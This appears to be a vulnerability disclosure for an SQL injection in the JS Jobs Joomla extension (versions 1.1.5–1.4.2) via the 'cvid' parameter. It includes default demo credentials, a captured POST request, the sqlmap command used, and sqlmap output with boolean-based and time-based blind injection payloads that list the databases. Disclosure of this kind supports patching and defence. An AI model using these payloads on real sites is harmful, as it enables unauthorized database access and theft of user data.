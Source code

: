 # SQL injection in JS jobs version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** Pending

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
An SQL injection vulnerability exists in the JS Jobs extension (v1.4.2) via the 'cvid' parameter and is exploitable as the jobseeker user.

To exploit this vulnerability login as the jobseeker user with default credentials (jobseeker:demo) and go to 'jobseeker-controlpanel >> My Stuff >> Newest Jobs >> Newest Jobs >> Apply Now >> Apply Now' and capture the "Apply Now" request.

## HTTP Request
```
POST /index.php?option=com_jsjobs&task=jobapply.jobapplyajax HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 67aa5f9b49e233456b916ea62ef1447b=kjou43pssdvaa5plr84dhc8P64
Content-Length: 38
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/index.php/component/jsjobs/newest-jobs?Itemid=
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

jobid=1&cvid=1&coverletterid=4&uid=460
```

## POC

```
sqlmap -r req.txt --dbs --batch -p cvid --dbms=mysql --threads=10
___
__H__
___ ___[(]_____ ___ ___ {1.9.1.2#dev}
|_ -| . [,] | .'| . |
|___|_ [(]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org

---
Parameter: cvid (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: jobid=1&cvid=(SELECT (CASE WHEN (7270=7270) THEN 1 ELSE (SELECT 6098 UNION SELECT 7386) END))&coverletterid=4&uid=460

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: jobid=1&cvid=1 AND (SELECT 6497 FROM (SELECT(SLEEP(5)))EAyv)&coverletterid=4&uid=460
---

available databases [2]:
[*] joomla_db
[*] information_schema
```